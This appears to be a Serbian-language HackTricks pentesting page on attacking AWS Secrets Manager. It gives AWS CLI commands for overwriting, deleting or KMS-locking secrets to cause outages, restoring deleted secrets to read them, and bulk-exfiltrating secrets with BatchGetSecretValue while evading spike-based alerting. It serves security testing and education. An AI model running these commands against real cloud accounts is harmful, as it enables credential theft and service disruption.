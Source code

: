 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Za više informacija pogledajte:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

**secrets sami po sebi predstavljaju osetljive informacije**, [pogledajte privesc stranicu](../aws-privilege-escalation/aws-secrets-manager-privesc.md) da biste naučili kako da ih pročitate.

### DoS Change Secret Value

Promenom vrednosti secret-a možete izazvati **DoS svih sistema koji zavise od te vrednosti.**

> [!WARNING]
> Imajte na umu da se prethodne vrednosti takođe čuvaju, pa je jednostavno vratiti se na prethodnu vrednost.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Ako napadač ima dozvolu secretsmanager:UpdateSecret, može da konfiguriše secret da koristi KMS key u vlasništvu napadača. Taj key je inicijalno podešen tako da svako može da mu pristupi i koristi ga, pa je moguće ažurirati secret novim key-jem. Ako key nije bio dostupan, secret ne bi mogao biti ažuriran.

Nakon promene key-ja za secret, napadač menja konfiguraciju svog key-ja tako da samo on može da mu pristupi. Na taj način, u narednim verzijama secreta, one će biti enkriptovane novim key-jem, i pošto nema pristupa tom key-ju, mogućnost preuzimanja secreta će biti izgubljena.

Važno je napomenuti da će ta nedostupnost nastupiti samo u kasnijim verzijama, nakon što se sadržaj secreta promeni, jer je trenutna verzija i dalje enkriptovana originalnim KMS key-jem.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Minimalan broj dana za brisanje secret-a je 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Moguće je vratiti secret, što omogućava obnavljanje secrets koji su zakazani za brisanje, pošto je minimalni period brisanja secrets 7 dana, a maksimalni 30 dana. U kombinaciji sa permisijom secretsmanager:GetSecretValue, ovo omogućava preuzimanje njihovog sadržaja.

Da biste povratili secret koji je u procesu brisanja, možete koristiti sledeću komandu:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ova akcija omogućava brisanje politike resursa koja kontroliše ko može da pristupi tajni. Ovo može dovesti do DoS-a ako je politika resursa konfigurisana da dopušta pristup određenom skupu korisnika.

Da biste obrisali politiku resursa:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Stanja tajne se koriste za upravljanje verzijama tajne. AWSCURRENT označava aktivnu verziju koju koriste aplikacije, AWSPREVIOUS čuva prethodnu verziju kako biste se mogli vratiti unazad ako je potrebno, a AWSPENDING se koristi u procesu rotacije da pripremi i verifikuje novu verziju pre nego što je učini trenutnom.

Aplikacije uvek čitaju verziju označenu sa AWSCURRENT. Ako neko premesti tu oznaku na pogrešnu verziju, aplikacije će koristiti nevažeće kredencijale i mogu zakazati.

AWSPREVIOUS se ne koristi automatski. Međutim, ako se AWSCURRENT ukloni ili nepravilno dodeli, može izgledati da sve i dalje radi sa prethodnom verzijom.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration preko BatchGetSecretValue (do 20 po pozivu)

Iskoristite Secrets Manager BatchGetSecretValue API da preuzmete do 20 secrets u jednom zahtevu. Ovo može dramatično smanjiti broj API poziva u poređenju sa ponavljanjem GetSecretValue za svaki secret. Ako se koriste filteri (tags/name), potrebna je i dozvola ListSecrets. CloudTrail i dalje beleži po jedan GetSecretValue događaj za svaki secret preuzet u batch-u.

Potrebne dozvole
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Imajte na umu da sama dozvola `secretsmanager:BatchGetSecretValue` nije dovoljna za preuzimanje secrets — takođe vam je potrebna `secretsmanager:GetSecretValue` za svaki secret koji želite da preuzmete.

Exfiltrate pomoću eksplicitne liste
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate preko filtera (tag key/value ili prefiks imena)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Rukovanje delimičnim neuspesima
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Uticaj
- Brzo “smash-and-grab” preuzimanje mnogih tajni uz manje API poziva, što potencijalno zaobilazi alerting podešen na skokove GetSecretValue.
- CloudTrail logovi i dalje uključuju po jedan GetSecretValue događaj za svaku tajnu dohvaćenu u seriji.
